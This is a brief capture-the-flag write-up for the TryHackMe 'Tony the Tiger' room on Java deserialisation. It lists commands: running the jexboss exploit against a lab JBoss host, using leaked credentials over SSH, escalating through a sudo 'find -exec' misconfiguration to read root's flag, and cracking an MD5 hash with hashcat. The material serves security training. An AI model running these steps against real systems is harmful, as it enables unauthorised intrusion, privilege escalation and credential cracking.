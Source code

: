 #java-serialisation

https://tryhackme.com/r/room/tonythetiger

---

All is about getting in with https://github.com/joaomatosf/jexboss
```shell
python2.7 jexboss.py -host http://10.10.4.160:8080
```

Then jboss creds were on his home in a hidden file `jboss:likeaboss`

I connected through ssh and `sudo -l` gave me `find`
```shell
sudo find /root -name "root.txt" -exec cat {} \;
```

It gave me a base 64 encoded string which gave me a MD5 hash
```shell
hashcat -m 0 -a 0 hash /usr/share/wordlists/rockyou.txt
```

And here is the root flag
```text
bc77ac072ee30e3760806864e234c7cf:zxcvbnm123456789
```

